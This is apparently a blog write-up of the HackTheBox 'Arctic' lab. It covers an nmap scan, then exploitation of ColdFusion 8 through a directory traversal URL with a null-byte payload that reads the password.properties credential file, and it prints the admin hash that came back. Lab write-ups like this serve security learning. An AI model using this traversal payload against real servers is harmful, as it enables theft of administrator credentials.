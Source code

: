 ```yaml
---
layout: post
title: HackTheBox - Arctic Writeup
tags: [hackthebox]
---
```


I did this box quite some time ago as it was one of the first ones I did when first starting HackTheBox. I recently helped out someone who was working on this box
so I decided to reorganize my notes, as they were somewhat of a mess and restructure them for a proper writeup.

 

### Initial Enumeration

First, let's start with a quick nmap scan.
```
root@kali:~/htb/arctic# nmap -sV 10.10.10.11

Nmap scan report for 10.10.10.11
Host is up (0.065s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Right off the bat port 8500 looks interesting. Let's have a look in the browser.

![8500](/img/arctic-8500.png)

![CFIDE](/img/arctic-cfide.png)

The administrator directory gives us a login for ColdFusion 8.

![Login](/img/arctic-login.png)

### Exploitation

After a quick search online we find that ColdFusion 8 is vulnerable to directory traversal. ColdFusion 8 also stores the administrator hash locally in a file called password.properties. So we can grab the administrator hash using the directory traversal using the following URL:

`http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`

And we get this output in the browser.

![HASH](/img/arctic-hash.png)

So we have a hash of `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03`

